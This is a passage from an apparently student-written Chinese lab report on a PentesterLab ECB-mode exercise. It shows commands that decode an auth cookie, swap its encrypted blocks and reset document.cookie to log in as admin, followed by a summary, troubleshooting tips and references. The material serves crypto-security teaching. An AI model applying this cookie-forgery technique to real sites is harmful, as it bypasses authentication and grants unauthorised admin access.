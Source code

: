   用户：`homework(8字节) + 7空格`

  密码：`admin(5字节) + 3空格`

  ```
  #解密原cookie
  cuc@cuc-lab:~$ echo TA5rOF7/MP61BlFFazd3eshx6uXNvSnx | base64 -d | hexdump -C
  00000000  4c 0e 6b 38 5e ff 30 fe  b5 06 51 45 6b 37 77 7a  |L.k8^.0...QEk7wz|
  00000010  c8 71 ea e5 cd bd 29 f1                           |.q....).|
  00000018
  
  #交换加密块之后在进行加密
  cuc@cuc-lab:~$ echo "c871eae5cdbd29f1b50651456b37777a4c0e6b385eff30fe" | xxd -r -p |base64
  yHHq5c29KfG1BlFFazd3ekwOazhe/zD+
  
  #网页修改cookie
  document.cookie='auth=yHHq5c29KfG1BlFFazd3ekwOazhe/zD+';
  ```

  ![](C:\Users\Lenovo\Desktop\ECB漏洞利用\img\交换密码块登录成功.png)

+ **实验小结：**通过上述实验可以知道通过篡改加密信息访可以问其他用户，并且加密不能作为签名的替代品。了解了如何使用`ECB`加密来获得对解密信息的控制。

## **实验遇到的问题及解决办法**

+ `windows` 操作系统计算校验和没有直接的命令，将镜像传入`linux` 虚拟机中进行计算即可。
+ 修改cookie后要通过刷新页面实现管理员登录，退出重登会出错。

## **参考文献**

+ [对称加密 `ECB` 模式的漏洞利用综合实验指南](https://pentesterlab.com/exercises/ecb/course)

+ [cookie的含义](https://m.php.cn/article/413663.html)
